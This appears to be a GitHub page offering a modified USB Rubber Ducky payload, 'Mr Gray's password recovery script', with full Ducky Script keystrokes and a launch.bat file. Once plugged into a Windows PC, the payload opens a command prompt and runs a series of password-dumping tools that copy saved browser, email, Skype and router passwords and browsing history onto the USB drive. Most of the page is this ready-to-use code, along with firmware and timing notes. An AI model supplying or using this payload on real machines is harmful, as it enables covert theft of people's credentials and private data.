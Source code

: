 The following is a modified version of Mr Gray's password recovery script for the USB rubber ducky. Modifications include googleKnowsBest's ducky drive detection if the drive is labeled "DUCKY", which has been coded to work on all current windows OS's, and a modification to run from a folder on the ducky labeled "MrGraysRubberHacks". This payload has also been tweaked to be a little more forgiving to errors, and as such has some more delays. Forgiving as this script is, it may need customized delays depending on the users requirements. The payload is designed for c_duck_v2_S001.hex, and c_duck_v2_S002.hex firmware types. Wait for the ducky's drive to mount, and then press the button to launch this payload. This payload may also be launched using a binary duck attack in which you use stock duck firmware, linked to a mass storage device via a 2 port USB cable splitter. This method would mount the mass storage almost instantaneously which would negate the need to wait for the ducky's mass storage to mount. 
The forum page is located here: 

http://forums.hak5.org/index.php?/topic/29067-payload-mr-grays-password-history-recovery-tool-for-rubber-ducky/

```
ENCODE: 

DEFAULT_DELAY 25
REM File: MrGraysRubberHacks.txt
REM Target: WINDOWS VISTA/7
DELAY 1000
ESCAPE
CONTROL ESCAPE
DELAY 100
STRING cmd
DELAY 100
ENTER
DELAY 150
STRING for /f "tokens=3 delims= " %A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%A:)
ENTER
STRING set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
ENTER
STRING %DUCKYdrive%\launch.bat
ENTER

LAUNCH.BAT file: 

for /f "tokens=3 delims= " %%A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%%A:)

REM Output everything to this folder so I dont have everything on the duck's root. 
set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks

start %DUCKYdrive%\WebBrowserPassView.exe /stext %DUCKYdrive%\WebBrowserPassView.txt
start %DUCKYdrive%\SkypeLogView.exe /stext %DUCKYdrive%\SkypeLogView.txt
start %DUCKYdrive%\RouterPassView.exe /stext %DUCKYdrive%\RouterPassView.txt
start %DUCKYdrive%\pspv.exe /stext %DUCKYdrive%\pspv.txt
start %DUCKYdrive%\PasswordFox.exe /stext %DUCKYdrive%\PasswordFox.txt
start %DUCKYdrive%\OperaPassView.exe /stext %DUCKYdrive%\OperaPassView.txt
start %DUCKYdrive%\mspass.exe /stext %DUCKYdrive%\mspass.txt
start %DUCKYdrive%\mailpv.exe /stext %DUCKYdrive%\mailpv.txt
start %DUCKYdrive%\iepv.exe /stext %DUCKYdrive%\iepv.txt
start %DUCKYdrive%\ChromePass.exe /stext %DUCKYdrive%\ChromePass.txt
start %DUCKYdrive%\ChromeHistoryView.exe /stext %DUCKYdrive%\ChromeHistoryView.txt
start %DUCKYdrive%\BulletsPassView.exe /stext %DUCKYdrive%\BulletsPassView.txt
start %DUCKYdrive%\BrowsingHistoryView.exe /stext %DUCKYdrive%\BrowsingHistoryView.txt
```

If you wish to remove the part of the script that contains the code to the folder MrGraysRubberHacks, and instead have all output go to the root of the drive delete the following items:

```
ENCODE: 

...
STRING set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
ENTER
...
```

```
LAUNCH.BAT file: 

...
REM Output everything to this folder so I dont have everything on the duck's root. 
set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
...
```